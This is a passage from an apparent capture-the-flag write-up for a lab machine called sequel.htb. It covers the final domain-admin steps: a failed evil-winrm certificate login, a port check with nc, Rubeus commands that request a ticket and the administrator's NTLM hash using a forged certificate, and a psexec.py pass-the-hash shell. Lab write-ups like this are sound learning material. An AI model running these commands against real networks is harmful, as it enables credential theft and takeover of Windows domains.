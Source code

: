 Trying to use the keys as is on evil-winrm.
`evil-winrm -S -c public.pem -k private.pem -i sequel.htb`
But it doesn't connect as port 5986 which is used for SSL is not open. Checked with:
`nc -zv 10.10.11.202 5986`

Now we gotta use Rubeus:
Now uploading the cert.pfx to the target:
`.\Rubeus.exe asktgt /user:administrator /certificate:C:\programdata\cert.pfx`
Now we get the ticket
![](attachment/fbb7171cd29267335f1d3f9c288f0b98.png)
Now to get the NTLM hashes:
`.\Rubeus.exe asktgt /user:administrator /certificate:C:\programdata\cert.pfx /getcredentials`
Now getting shell with psexec:
`psexec.py -hashes A52F78E4C751E5F5E17E1E9F3E58F4EE:A52F78E4C751E5F5E17E1E9F3E58F4EE administrator@10.10.11.202`